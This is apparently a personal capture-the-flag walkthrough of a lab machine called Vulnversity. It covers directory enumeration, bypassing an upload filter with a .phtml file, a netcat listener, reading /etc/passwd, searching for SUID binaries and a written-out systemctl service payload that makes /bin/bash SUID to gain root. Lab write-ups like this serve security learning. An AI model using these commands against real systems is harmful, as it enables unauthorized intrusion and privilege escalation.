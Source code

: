 # Vulnversity

> Osama Albawab | April 21 2020

-------------------------------------------

# 10.10.23.243
> 3333/tcp open http
> 10.10.23.243:3333/internal has an upload image form using gobuster we found it
> not allowed extension is .php
> now we try burpsuite intruder with textfile that contains [.php, .php3, .php4, .php5, .phtml]
> we put as well at grep 'Extension not allowed' to see which one is allowed
> phtml is an allowed extension !
> listenning for incoming connections with ' nc -lvnp 9000 '
> we found who runs the web server by ' cat /etc/passwd '
> we found bill and his folder
> now we search for root accessed files with '  find / -perm -4000 2>/dev/null '
> `TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF`
> systemctl enable --now $TF
> bash -p
> and we became the root
> basically what above does is that it moves the access policy of [FILE] to
> our /bin/bash so that we can execute everything we want [[rwsrwxrwx]]



=================================================================
